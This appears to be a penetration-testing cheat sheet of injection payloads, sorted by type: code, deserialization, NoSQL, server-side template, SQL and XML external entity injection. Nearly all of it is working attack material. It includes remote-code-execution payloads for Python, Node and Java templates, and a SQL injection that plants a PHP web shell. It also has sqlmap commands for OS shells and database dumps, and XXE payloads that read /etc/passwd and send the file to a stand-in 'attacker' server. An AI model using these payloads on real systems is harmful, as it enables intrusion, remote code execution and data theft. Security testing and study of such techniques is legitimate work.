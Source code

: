 # Types

- Code Injection
- Deserialization Injection
- NoSQL Injection
- Server-Side Template Injection
- SQL Injection
- XML External Entity

# Code Injection

## Python

Eval Command Execution
`eval("__import__('os').system('id')")`

# Deserialization Injection

## JavaScript

Payload Generator
```
var y = {
	rce : function(){
		require('child_process').exec('ping -c 1 ipaddress /', function(error, stdout,	stderr) { console.log(stdout) });
	},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

# NoSQL Injection

Test Payload 1
`admin' || '' === '`

Test Payload 2
```
Content-Type: application/x-www-form-urlencoded
user=admin&password[$ne]=admin
```

Test Payload 3
```
Content-Type: application/json
{
	"user":"admin",
```

Test Payload 4
```
Content-Type: application/json
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

# Server-Side Template Injection

## Nunjucks (NodeJS)

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('payload')")()}}
```

## Java

RCE Payload 1
```
*
{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('payload')
.getInputStream())}
```

## Python

Test Payload 1
`{{1+1}}` (Should eval to 2)

RCE Payload 1
`{{config.__class__.__init__.__globals__['os'].popen('payload').read()}}`

RCE Payload 2
```
{{self._TemplateReference__context.namespace.__init__.__globals__.os.popen("payload").read()}}
```

# SQL Injection

## Manual

### Enumeration

Basic Error Test
`value'`

Confirm SQL Injection Possible (if error goes away)
Note: The last dash protects the trailing space, which can get removed otherwise
`value' -- -`

Circumvent Query Condition
`' or 1=1;-- -`

Determine Number of Columns in Select (add/remove numbers until no error)
`value' union select 1,2,3-- -`

### Exploitation

Into Outfile Web Shell
`value' union select "<?php echo system($_REQUEST['c']); ?>" into outfile '/var/www/html/shell.php'-- -`

## sqlmap

### Request

Save Request
`In burp, intercept the request, and right click > Save Item. (E.g.: request.req)`

Initial Tests (--batch accepts all defaults to prompts)
```
sqlmap -r request.req --batch

Can set risk and levels as needed. E.g., 
sqlmap -r request.req --batch --risk=3 --level=3

This switch was used on HTB, but not documented in man page:
--force-ssl
```

Attempt Getting Shell via RCE
`sqlmap -r request.req --os-shell`

Check User Privs (E.g., FILE)
`sqlmap -r request.req --batch --privileges`

Enumerate databases
`sqlmap -r request.req --batch --dbs`

Get table names from dbname database
`sqlmap -r request.req --batch -D dbname --tables`

Dump the tblname table
`sqlmap -r request.req -D dbname -T tblname --dump`

### CLI Spec

Login, Username Param
`sqlmap -u http://url/endpoint?action=login --data="username=abc&password=abc" -p username [--level 5 --risk 3 to find more options] --batch`

JSON API
`sqlmap -u "protocol:address:port" --data '{"param_name": "*"}' --dbs [--threads 10 for speed] [--level 5 --risk 3 to find more options] --batch`

# XML External Entity

For best results, don't modify any formatting found used by the client/server.

## LFI Method 1

```
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<exampletag>&file;</exampletag>
```

Note: If the system has PHP and you want to base64 encode a file (binary, PDF, etc.) for easy transfer, use the following:
`<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/path/to/file">`
## LFI Method 2

Create Payload
```
evil.dtd accessible via attacker web server:

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://attacker/?p=%file;'>" >
```

Start web server

Inject Stager
```
<?xml version="1.0" ?>
<!DOCTYPE ANY [
<!ENTITY % remote SYSTEM 'http://attacker/evil.dtd'>%remote;%init;%trick;
]>
```
